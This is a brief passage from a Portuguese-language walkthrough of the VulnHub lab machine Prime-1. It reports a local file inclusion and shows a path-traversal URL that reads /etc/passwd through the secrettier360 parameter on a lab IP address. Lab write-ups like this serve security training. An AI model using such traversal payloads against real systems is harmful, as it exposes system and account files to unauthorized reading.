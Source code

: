 ![](/assets/img/Vulnhub/Prime-1/secrettier360.png)


## LFI


* Conseguimos um LFI na aplicacao depois de seguir todas as dicas. Bom... agora conseguimos dar uma olhada no **/etc/passwd**

```
http://192.168.150.113/image.php?secrettier360=../../../../../../etc/passwd
```
